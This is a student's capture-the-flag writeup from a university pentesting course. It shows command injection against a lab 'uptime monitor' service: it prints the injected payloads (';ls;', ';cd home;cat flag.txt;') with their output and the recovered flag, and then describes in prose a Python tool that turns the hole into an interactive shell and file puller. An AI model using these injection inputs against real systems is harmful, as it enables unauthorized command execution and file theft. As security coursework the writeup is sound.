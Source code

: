 Writeup 3 - Pentesting I
======

Name: Michael Zheng
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Michael Zheng

## Assignment 4 Writeup

### Part 1 (45 pts)
Since there are rumors that Fred’s new service is vulnerable to a command injection attack, I entered “ls” after “nc cornerstoneairlines.co 45”. It just prints out a blank line. I entered cd for “Enter IP address: cd” and received a blank line too. Then I thought maybe I need to close a pre-existing command with “;” before entering my own commands. I entered “;ls;” and the results:
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ls;
bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
Unfortunately, every command I going to enter, I have to repeat “nc cornerstoneairlines.co 45”. I entered “;ls;cd root;ls;”, but nothing shows up. I entered “;ls;cd usr;ls;” which results in:
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cd usr;ls;
bin games include lib local sbin share src
Then I want to see what’s inside of bin so I entered “;cd usr;cd bin;ls;” which results in:
[ addpart apt apt-cache apt-cdrom apt-config apt-get apt-key apt-mark arch awk b2sum base32 base64 basename bashbug captoinfo catchsegv chage chattr chcon chfn chrt chsh cksum clear clear_console cmp comm csplit ctstat cut deb-systemd-helper deb-systemd-invoke debconf debconf-apt-progress debconf-communicate debconf-copydb debconf-escape debconf-set-selections debconf-show delpart diff diff3 dircolors dirname dpkg dpkg-deb dpkg-divert dpkg-maintscript-helper dpkg-query dpkg-split dpkg-statoverride dpkg-trigger du env expand expiry expr factor faillog fallocate find flock fmt fold free gawk getconf getent getopt gpasswd gpgv groups head hostid i386 iconv id igawk infocmp infotocap install ionice ipcmk ipcrm ipcs ischroot join last lastb lastlog ldd link linux32 linux64 lnstat locale localedef logger logname lsattr lscpu lsipc lslocks lslogins lsmem lsns mawk mcookie md5sum md5sum.textutils mesg mkfifo namei nawk newgrp nice nl nohup nproc nsenter nstat numfmt od pager partx passwd paste pathchk perl perl5.26.1 pgrep pinky pkill pldd pmap pr printenv printf prlimit ptx pwdx rdma realpath rename.ul renice reset resizepart rev rgrep routef routel rtstat runcon savelog script scriptreplay sdiff select-editor sensible-browser sensible-editor sensible-pager seq setarch setsid setterm sg sha1sum sha224sum sha256sum sha384sum sha512sum shred shuf skill slabtop snice sort split stat stdbuf sum tabs tac tail taskset tee test tic timeout tload toe top touch tput tr truncate tset tsort tty tzselect unexpand uniq unlink unshare update-alternatives uptime users utmpdump vmstat w w.procps wall watch wc whereis which who whoami x86_64 xargs yes zdump
This seems incorrect, so I decided to take on a different path. I tried “;cd home;ls;”
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cd home;ls;         
flag.txt
Now I know the flag is located at flag.txt. I entered “ ;cd home;cat flag.txt; ”
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cd home;cat flag.txt;
Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}
After running the command, I found out the flag to be CMSC389R-{p1ng_as_a_$erv1c3}.

### Part 2 (55 pts)
First, I reused my code from the second assignment into my stub.py. I copied the sending and receiving into the execute() function. Since the only way to exit the interactive shell is by entering the “quit”, I made an infinite loop. Then I implemented a nested if statements for the four options. Starting with the “quit” option which quits the program. The “help” option prints out the options an user can use. However, I encountered some issues with the “shell” option. Whenever I tried to “ls” after entering “cd home”, it returns
 bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
Then I remember from part one of the assignment, every time I entered a command it established a new connection. I need to save the path entered previously.  I create a string variable called attachDirectory. Whenever a user enters “cd <path>”, attachDirectory would add the path. If only “cd” is entered, it would clear the attachDirecory. After resolving the shell issue, I encounter a problem with ‘pull”. I was not able to extract the flag and put it inside my file “pullin.” I discovered I was extracting “flag.txt” in the wrong directory. I decided to move the attachDirectory out of the while loop inside of the “shell” option. This allows my program to extract the flag and write into my file “pullin.”
